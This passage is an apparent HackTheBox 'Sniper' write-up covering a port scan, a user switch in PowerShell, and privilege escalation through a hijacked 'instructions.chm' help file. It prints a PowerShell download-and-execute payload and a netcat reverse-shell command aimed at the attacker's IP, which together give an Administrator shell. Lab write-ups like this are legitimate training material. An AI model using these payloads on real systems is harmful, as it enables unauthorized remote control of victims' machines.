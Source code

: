 ``` $ nmap -vvv -p1-65535 -oN pall.txt 10.10.10.151 ```

https://davidhamann.de/2019/12/08/running-command-different-user-powershell/

and I changed some elements:

![12-userflagonly](https://user-images.githubusercontent.com/62805453/85050988-72530980-b186-11ea-8638-bea9d47a3585.png)

Then with getting some helps from a friend I wrote a command to switch to “Chris” account via powershell:

![11-whoami](https://user-images.githubusercontent.com/62805453/85052414-6405ed00-b188-11ea-861c-fd456fd0c0a6.png)

After looking at some directories I found a file named “instructions.chm”, so I downloaded it into my Kali Linux machine via netcat, and open the file with kchmviewer tool:

![15-kchmviewer](https://user-images.githubusercontent.com/62805453/85051007-78e18100-b186-11ea-9872-5f24d99acd3e.png)

Then I downloaded the htmlhelp.exe file from microsoft website and installed it on windows machine: ( you can install it on your Kali machine using wine tool )

https://www.microsoft.com/en-us/download/details.aspx?id=21138

But I really didn’t know how to deal with instructions.chm file as it was my first experience to work with such an extension. So I searched on the internet and found this useful post and followed every steps:

https://github.com/yasinyilmaz/vuln-chm-hijack

I just changed this code:

``` <PARAM name="Item1" value=",powershell.exe, -nop -NoProfile -WindowsStyle 1 -c -IEX (New-Object Net.WebClient).DownloadString('{YOUR MALICIOUS FILE URL}')"> ```

TO:

``` <PARAM name="Item1" value=",cmd,/C C:\TEMP\nc64.exe -e powershell.exe 10.10.16.30 55400"> ```

By defining CMD in the code we are able to run any program we want, in this case nc64.exe.

At the end I compiled the file the way that the post shows and send it to my Kali machine and run the SimpleHTTPServer:

``` $ python -m SimpleHTTPServer 59800 ```

Then download instructions.chm in Sniper machine. (You can use your windows machine for doing all steps, just use Openvpn to connect to HackTheBox servers).

** Notice that the file that you compiled should have the same name as the original one: instructions.chm

In this moment you need to copy the file into “C:\Docs” directory, but before that run your netcat with your IPaddress and a port number. After running netcat and copying instructions.chm file in the Docs directory you get a reverse shell as the Administrator of the Sniper machine:

![16-root](https://user-images.githubusercontent.com/62805453/85051014-7b43db00-b186-11ea-88e9-3bbf572998d1.png)

